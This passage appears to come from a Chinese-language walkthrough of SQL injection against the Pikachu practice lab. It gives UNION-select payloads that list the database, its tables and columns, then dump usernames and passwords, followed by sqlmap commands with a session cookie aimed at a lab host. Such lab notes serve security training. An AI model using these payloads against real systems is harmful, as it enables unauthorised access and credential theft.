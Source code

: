 ```
-1%' union select 1,2,database()#
```

爆破表名：

```
-1%' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='pikachu'#
```

爆破字段名：

```
-1%' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'#
```

获取隐私字段信息：

```
-1%' union select 1,group_concat(username),group_concat(password) from users#
```

![image-20250123073100803](../../_media/image-20250123073100803.png)



#### SQLMap

查注入点：

```
python sqlmap.py -u "http://192.168.10.129/vul/sqli/sqli_search.php?name=1&submit=%E6%90%9C%E7%B4%A2" --cookie="PHPSESSID=fbtqpmo4usbar76febqv2m3fug" 
```



爆破库名：

```
python sqlmap.py -u "http://192.168.10.129/vul/sqli/sqli_search.php?name=1&submit=%E6%90%9C%E7%B4%A2" --cookie="PHPSESSID=fbtqpmo4usbar76febqv2m3fug" --dbs
```
